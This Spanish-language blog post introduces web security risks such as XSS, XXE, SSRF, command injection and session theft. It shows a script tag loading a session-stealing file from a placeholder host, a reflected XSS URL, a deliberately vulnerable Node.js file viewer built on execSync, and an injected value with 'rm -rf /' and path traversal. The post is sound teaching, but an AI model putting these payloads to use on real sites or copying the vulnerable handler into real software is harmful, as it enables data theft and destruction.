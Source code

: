 ```yaml
---
title: "Seguridad en la web"
description: La seguridad web es la práctica de implementar medidas para proteger un sitio web haciendolo más díficil de vulnerar.
date: 2021-04-15
cover: https://res.cloudinary.com/marcomadera/image/upload/v1618515494/Blog/seguridad-web/security_2_prgizu.png
author: Marco Madera
tags:
  - Seguridad
  - Web
---
```


![Alerta mimic site a la derecha](https://res.cloudinary.com/marcomadera/image/upload/q_auto,f_auto,c_scale,h_271,w_319/v1618256076/Blog/seguridad-web/Ingenier%C3%ADa_social_yav5tv.png)

Te llega un correo electrónico que parece proceder de tu banco u otro servicio popular de internet como Google. Te solicita que confirmes información sensible sobre tu cuenta. El correo electrónico parece legítimo, ninguna señal de alerta del servicio de que el correo pueda ser peligroso o spam. El link parece muy realista tiene HTTPS, entonces das clic al link para saber más. Entras a la página, pero no carga porque te interrumpe una alerta del sitio y te das cuenta de que pudiste ser víctima de phishing.

## ¿Qué es la seguridad Web?

La seguridad web es la práctica de implementar medidas para proteger un sitio web haciéndolo más difícil de vulnerar. Es necesaria para proteger un sitio web contra el robo de datos y mantener una reputación con tus usuarios.

Existen muchas razones para que tu sitio web sea vulnerable, de las cuales vamos a poner unas cuantas sobre la mesa.

## Manejo de datos

La validación de datos es el paso que verifica las entradas de usuario. En este paso se asegura que los datos sean los requeridos para que puedan ser procesados correctamente y se ingresen en una base de datos.

Si no se hace correctamente este paso se pueden tener datos corruptos. Por ejemplo en tu lista de canciones favoritas de Spotify puede que tengas datos nulos o tener un usuario de Twitter sin nombre de usuario como es el siguiente caso.

<tweet id="1379691085514047490"></tweet>

Un mal manejo de datos es una vulnerabilidad potencial. Enviar datos que no son necesarios al *frontend* puede ser un error por ejemplo si tienes un examen con la siguiente estructura.

```json
{
  test: [
    {
      question: "¿Qué url es más segura?",
      anwers: [
        {
          text: "https://googIe.com",
          correct: true,
        },
        {
          text: "http://www.google.com",
          correct: false,
        },
      ]
    },
  ],
}
```

Estos datos en el lado del cliente (*frontend*) pueden ser expuestos para revelar las respuestas correctas. Un mejor manejo podría ser que cada vez el usuario responda una pregunta se haga una petición al servidor para saber si es acertada la respuesta del usuario y actuar conforme al resultado. Similar si fueran números de tarjetas de crédito. Puede que no sea necesario enviar el número completo sino los últimos 4 dígitos si el usuario decide revelarlo o como sea conveniente.

## Cross-site scripting (XSS)

Tal vez te suene si has visto una alerta en algunos sitios web en la consola.

![Alerta xss](https://res.cloudinary.com/marcomadera/image/upload/q_auto,f_auto,c_scale,h_227,w_705/v1618249299/Blog/seguridad-web/self-xss_axzj76.png)

Esta es una vulnerabilidad de XSS y ocurre cuando se inyecta código en el cliente. Existe dos tipos: persistente y no persistente.

Imagina que la sección de comentarios de este post aceptara etiquetas HTML como la de `<script>`. Se pudiera comentar algo como lo siguiente: `<script src="http://sitioweb/robarsesiones.js">`. Entonces el script se ejecutará cada vez que alguien abra el post. Este es un tipo de ataque persistente porque está inyectado de manera permanente en el sitio web.

Un ejemplo no persistente sería si al tener un buscador no validar la query, permitir que la siguiente URL `https://marcomadera.com/search?q=<script%20type='application/javascript'>alert('xss');</script>` ejecute el código.

El siguiente ejemplo de crear un tweet que se hace retweet cada vez que aparece en pantalla, sería persistente en cuanto aparezca en el *feed* de una persona haría retweet por si solo.

<youtube id="zv0kZKC6GAM"></youtube>

## XML External Entity (XXE)

Un ataque de entidades externas es el tipo de ataque que abusa del procesador de xml.

> Este ataque puede conducir a la divulgación de datos confidenciales, denegación de servicio, falsificación de solicitudes del lado del servidor, escaneo de puertos desde la perspectiva de la máquina donde se encuentra el analizador y otros impactos del sistema. - [Wikipedia](https://en.wikipedia.org/wiki/XML_external_entity_attack)

En el sitio *secrets of app security* hay un ejemplo claro de un ataque con saml para interceptar solicitudes y remplazarla con tu código [Ataque XXE](https://secretsofappsecurity.blogspot.com/2017/01/saml-security-xml-external-entity-attack.html).

Puede que recuerdes el mensaje del punto negro de WhatsApp y iMessage. Este es un ataque de este tipo que tenía oculto múltiples entidades `&lrm;` que cambian la dirección del texto y que el procesador de xml no podía soportar. Otro ataque similar a este es el llamado [Billion laughs attack](https://en.wikipedia.org/wiki/Billion_laughs_attack) que usa entidades `&lol;`.

<tweet id="994230605859651584" caption="El mensaje contenía multiples entidades de dirección del texto &lrm, que sobrecargaban la memoría y hacía que la app dejará de responder" ></tweet>

## Server-side request forgery (SSRF)

En este tipo de ataque el atacador abusa de la funcionalidad del servidor para utilizar los recursos internos de este.

En una situación normal el *frontend* de una tienda puede hacer llamadas al servidor para saber si un producto está disponible `http://storeapi.api/product/check`, el atacante hace peticiones al servidor modificando ese *endpoint*, por ejemplo al mismo `http://localhost/admin` abusando de la confianza.

<videogif title="Server Request" src="https://res.cloudinary.com/marcomadera/video/upload/v1618513408/Blog/seguridad-web/server_clic_twfhas.mp4"></videogif>

## Inyección de comandos

Un ataque de inyección de comandos puede ocurrir porque el servidor no valida el input del usuario antes de usarlo en la línea de comandos.

El siguiente ejemplo es un lector de archivos vulnerable que devuelve el contenido del archivo, el usuario puede insertar algo como `"filename.pdf rm -rf /"` y borrar el contenido del servidor entero o dirigirse a una ruta `"../passwords"` provocando un ataque transversal de directorio.

```javascript
app.get('/viewer', (req, res) => {
  const { filename } = req.query;
  try {
    const stdout = childProcess.execSync('cat folder/' + filename);
    res.send(stdout.toString());
  } catch (err) {
    res.send(err.toString());
  }
});
```

## Ataque de denegación de servicio (DoS)

El objetivo de este ataque es la sobrecarga de los recursos del sistema para que sea inaccesible a los usuarios. La manera en que funciona es que satura los puertos con más datos de los que puede soportar, entonces al no poder con tantas solicitudes deniega el acceso a los demás usuarios.

Estos ataques son comunes por su facilidad de explotar. Existen servicios como Google Cloud Armor y CloudFlare para proteger el sitio web.

## Robo de sesión

Esta explotación es para un obtener acceso no autorizado a información o servicios regularmente teniendo acceso a las cookies y robándolas para así autenticarse.

<youtube id="UR_i5XSAKrg" ></tweet>

## Filtración de datos

Este mes se puso a disposición para descargar datos de más de 500 millones de usuarios de Facebook, los datos se obtuvieron explotando una vulnerabilidad.

La legislación mexicana obliga a las empresas que tratan con datos personales, a notificar vulneraciones de los datos de los titulares.

> Las vulneraciones de seguridad ocurridas en cualquier fase del tratamiento que afecten de forma significativa los derechos patrimoniales o morales de los titulares, serán informadas de forma inmediata por el responsable al titular, a fin de que este último pueda tomar las medidas correspondientes a la defensa de sus derechos - [Artículo 20 - Ley federal de protección de datos personales en posesión de los particulares](http://www.diputados.gob.mx/LeyesBiblio/pdf/LFPDPPP.pdf)

Así como en esta vulnerabilidad mis datos se han visto comprometidos en otras 6 empresas como Bookmate, Nitro, Wattpad y YouNow. De ninguna he tenido ningún aviso para tomar alguna precaución. Por suerte existen páginas como [haveibeenpwned](https://haveibeenpwned.com/) donde te puedes enterar si has sido víctima de estas vulneraciones.

Otra filtración reciente fue sobre el funcionamiento del navegador de Brave en modo privado con Tor. El funcionamiento es que oculta tu identidad al navegar, pero el navegador enviaba las direcciones que visitabas al proveedor DNS en lugar de enviarlo a los servidores de Tor.

<tweet id="1362737949872431108" ></tweet>

## Programas de recompensas

Algunas empresas tienen programas de recompensas para quienes encuentren vulnerabilidades en sus servicios.

- [Microsoft](https://www.microsoft.com/en-us/msrc/bounty-microsoft-identity?rtc=1)
- [Facebook](https://www.facebook.com/whitehat)
- [Google](https://www.google.com/about/appsecurity/reward-program/)

<tweet id="1366767274720329729" ></tweet>

## Conclusión

Los riesgos en la seguridad web se pueden presentar en diferentes formas. Estos cambian rápidamente y se requiere revisar continuamente. Esta es una práctica continua durante todo el proceso donde se deben de mantener buenas prácticas de seguridad, actualizar librerias, analizar cómo mejorar los canales de desarrollo automatizando la seguridad para que no retrase el proyecto en desarrollo.

